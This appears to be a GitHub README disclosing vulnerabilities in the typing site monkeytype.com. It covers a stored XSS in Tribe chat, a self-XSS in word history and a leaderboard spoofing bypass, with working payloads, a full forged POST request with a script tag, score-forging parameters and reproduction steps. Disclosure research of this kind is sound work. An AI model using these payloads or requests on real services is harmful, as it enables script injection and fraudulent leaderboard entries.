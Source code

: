 ```
                                        .="=.
                                    _/.-.-.\_     _
                                    ( ( o o ) )    ))
                                    |/  "  \|    //
                    .-------.        \'---'/    //
                    _|~~ ~~  |_       /`"""`\\  ((
                =(_|_______|_)=    / /_,_\ \\  \\
                    |:::::::::|      \_\\_'__/ \  ))
                    |:::::::[]|       /`  /`~\  |//
                    |o=======.|      /   /    \  /
                    `"""""""""`  ,--`,--'\/\    /
                                '-- "--'  '--'
                  Vulnerability Research by Tyler Butler 🐒 
```


# Banana Cannon 🍌
This repository contains vulnerability research on [monkeytype.com](https://monkeytype.com/), a popular typing-test application with a growing online community. Current research includes two cross-site scripting vulenrabilities and an authenticated bypass PoC exploit.


**Table of Contents**
- [Identified Vulnerabilities](#identified-vulnerabilities)
  - [Stored Cross-Site Scripting (XSS) via Tribe Chat](#stored-cross-site-scripting-xss-via-tribe-chat)
  - [Leaderboard Authenticated ByPass by Spoofing](#leaderboard-authenticated-bypass-by-spoofing)
  - [Self Cross Site Scripting (XSS) via Word History](#self-cross-site-scripting-xss-via-word-history)
- [Proof of Concept Exploits](#proof-of-concept-exploits)
  - [BananaCannon.py](#BananaCannon)

# Identified Vulnerabilities

> The following section describes publically disclosed vulnerabilities
## Stored Cross-Site Scripting (XSS) via Tribe Chat 

![](img/tribe_stored_xss.gif)

### Overview

The MonkeyType Tribe chat at https://dev.monkeytype.com/tribe is vulnerable to stored cross-site scripting through user comments and username. The research concludes that client-side input validation can be evaded by intercepting raw web socket traffic, and injecting payloads directly into message content. To do so, malicious users can enter a non-xss string in the chat field and send it to web server, then capture the web socket traffic with a proxy tool like BurpSuite, and finally modify the input to a XSS payload.

### Payload   

In this example, I used an `onclick` payload to demonstrate the capability. The final payload was ```test<svg/onclick=alert`xss`>```

**Socket Message**

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```

![](img/tribe_stored_xss.png)


### To Reproduce

+ Configure [BurpSuite](https://portswigger.net/burp) to intercept browser traffic
+ Navigate to https://dev.monkeytype.com/tribe
+ Click on "create room"
+ Turn on BurpSuite proxy interception
+ Enter a new chat string
+ Intercept the web socket traffic, and chang the chat string to an XSS payload, example below.

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


![](img/tribe_stored_xss_burp.png)


### Disclosure Timeline 

+ **May 27th, 2021**: Vulnearbility Discovered and Disclosed on Github per guidance as issue [#1476](https://github.com/Miodec/monkeytype/issues/1476)
+ **May 27th, 2021**: Patch issued


## Leaderboard Authenticated ByPass by Spoofing 

### Overview 

Monkeytype.com is vulnerable to authenticated bypass by spoofing in the leaderboard. Users can bypass leaderboard controls and inject any object they want into the leaderboard by spoofing post requests to `/checkLeaderboards`. Malicious users can send specially crafted post requests and inject any user they want to the top of the leaderboard with any value words per minuet they want. Server does invalidate requests with cross-site scripting (XSS) payloads, therefore I believe this is not vulnerable to XSS.

### Payload

```yaml
POST /checkLeaderboards HTTP/2
Host: us-central1-monkey-type.cloudfunctions.net
Content-Length: 750
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Authorization: Bearer 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://monkeytype.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://monkeytype.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"data":{"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","lbMemory":{"time15":{"global":null,"daily":null},"time60":{"global":null,"daily":null}},"name":"pwnville_foo2<script>console.log","banned":null,"verified":null,"discordId":null,"result":{"wpm":200.00,"rawWpm":200.00,"correctChars":250,"incorrectChars":6,"allChars":250,"acc":92,"mode":"time","mode2":15,"quoteLength":-1,"punctuation":false,"numbers":false,"timestamp":1622147912060,"language":"english","restartCount":0,"incompleteTestSeconds":0,"difficulty":"normal","testDuration":15.001134999999515,"afkDuration":0,"blindMode":false,"theme":"9009","tags":[],"consistency":83.22,"keyConsistency":45.56,"funbox":"none","bailedOut":false,"customText":null,"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","id":"vZkPA1dmzeUvaGQPkE4Z"}}}
```

> After making the above post request, my user was added to the top of the leaderboard  


![](img/leader.png)

### Vulnerable Components 

The root cause of the stored XSS vulnerability is the method for which firebase data is input into the leaderboards table. On line [126](https://github.com/Miodec/monkeytype/blob/974088926fbe42de1c7c82a1a8902a103c18b91f/src/js/elements/leaderboards.js#L126) in leaderboard.js, 


```html
$("#leaderboardsWrapper table.daily tbody").append(`
          <tr>
          <td>${
            dindex === 0 ? '<i class="fas fa-fw fa-crown"></i>' : dindex + 1
          }</td>
          <td ${meClassString}>${entry.name}</td>
          <td class="alignRight">${entry.wpm.toFixed(
            2
          )}<br><div class="sub">${entry.acc.toFixed(2)}%</div></td>
          <td class="alignRight">${entry.raw.toFixed(2)}<br><div class="sub">${
            entry.consistency === "-" ? "-" : entry.consistency.toFixed(2) + "%"
          }</div></td>
          <td class="alignRight">${entry.mode}<br><div class="sub">${
            entry.mode2
          }</div></td>
          <td class="alignRight">${moment(entry.timestamp).format(
            "DD MMM YYYY"
          )}<br><div class='sub'>${moment(entry.timestamp).format(
            "HH:mm"
          )}</div></td>
        </tr>
```
## Self Cross Site Scripting (XSS) via Word History

![](img/self_xss2.png)

### Overview   

User input is interpreted by the browser unsanitized when entered into the typing challenge. Once the challenge is over and the user opens the "word history" tab, hovering over the mispelled words will cause the browser to interpret the payload as valid injected code. Under current limitations significant code execution cannot be caused due to character limit, however more research should be done to prove impact. This occurs in default settings.

### To Reproduce 

For a XSS payload, just start typing the following upon immediatly starting a new typing test ```"><svg/onclick=alert1`>```

+  Start a new typing challenge
+  Spell the first word correctly, then immediately after the first word and with no spaces after, terminate the string with ">
+  Enter payload
+  Once the timer is complete, select the option to view word history
+  Hover over the misspelled word, and the payload will execute

![](img/self_xss1.png)


# Proof of Concept Exploits  
## BananaCannon
### What is it? 
BananaCannon is a quick proof of concept to show how any user can enter the daily and global leaderboards of [MonkeyType](https://monkeytype.com) by sending carefully crafted post requests to the firebase server. 

### How does it Work?  

Monkey see works by creating a new post request and changes the `wpm`, `rawwpm`, `correctChars`, `incorrectChars`, and `allChars` parameters. Back-end logic checks to make sure that the wpm matches the total number of correctChars, so it's important to keep these consistent. For example, to create a new score with 195 words per minuet, the following parameters were used.

**Mode 15**

```json
"wpm":195.17,
"rawWpm":195.17,
"correctChars":242,
"incorrectChars":1,
"allChars":243,
```

**Mode 60**

```json
"wpm":190.79,
"rawWpm":191.79,
"correctChars":950,
"incorrectChars":0,
"allChars":950,
```

![](img/mode_60_injection.png)
